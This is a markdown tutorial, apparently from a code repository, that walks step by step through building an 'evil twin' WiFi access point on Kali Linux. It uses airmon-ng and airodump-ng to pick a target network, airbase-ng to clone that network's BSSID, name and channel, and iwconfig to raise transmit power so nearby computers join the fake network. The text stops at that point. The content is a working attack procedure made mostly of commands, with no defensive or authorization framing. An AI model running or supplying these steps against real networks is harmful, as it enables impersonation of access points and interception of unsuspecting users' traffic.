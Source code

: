 Boot / Install Kali

If on virtualbox, you will need a USB wifi stick. Once added, click the usb icon in the bottom right and add the device to your guest OS
![](http://teachthe.net/topclipbox/2016-05-03_22-29-253QLRLY.png)

```shell
airmon-ng
```

You should see something like this
![](http://teachthe.net/topclipbox/2016-05-03_22-31-4102HNZ4.png)

From the above, get your Interface name and use it below in place of 'wlan0'

```
airmon-ng start wlan0
```

This should tell us monitor mode is enabled for this interface.

```
airodump-ng wlan0
```

This will show us all wifi points detected by the card, along with their encryption type. It should look like this:

![](http://teachthe.net/topclipbox/2016-05-03_23-47-24LP16AR.png)

Once you see the network you want to fake, hit control+c to kill it.

```
airbase-ng -a 04:1E:64:98:96:AB --essid "MyNetwork" -c 1 wlan0
```

For this command, we need to make a few modifications:

1) "-c 1" is specifying to use channel 1. Replace the "1" with the number from the CH column above for your network.

2) "-a 04:1E:64:98:96:AB" is specifying the unique ID of the actual wifi network you are targeting. Replace the "04:1E:64:98:96:AB" with the value from the BSSID column above for your network.

3) '--essid "MyNetwork"' is specifying the 'human' name of your network as "MyNetwork". Replace that.

4) As always, replace wlan0 with your Interface name.

We now have a clone of that wifi network up and running with the same name, channel, and SSID number. Computers will always connect to the most powerful router with this name automatically, so let's max the power of our fake network:

```
iwconfig wlan0 txpower 27
```

(Note, if you go higher than 27 you might damage your card)

